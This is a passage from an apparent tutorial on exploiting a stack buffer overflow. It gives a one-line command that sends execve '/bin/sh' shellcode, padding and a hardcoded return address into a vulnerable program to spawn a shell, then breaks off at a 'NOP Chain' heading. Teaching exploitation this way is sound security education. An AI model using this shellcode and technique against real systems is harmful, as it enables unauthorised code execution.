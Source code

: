 

Now, outside gdb:
```bash
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*239 + "\x56\xcf\xff\xff"'; cat) | ./stack-overflow
```

Sometimes `unset environment` helps, sometimes doesn't. You could try to brute-force the address with some sort of script, but there is a better solution. And that's why we need the next subsection of stack overflow vulnerability.

## NOP Chain


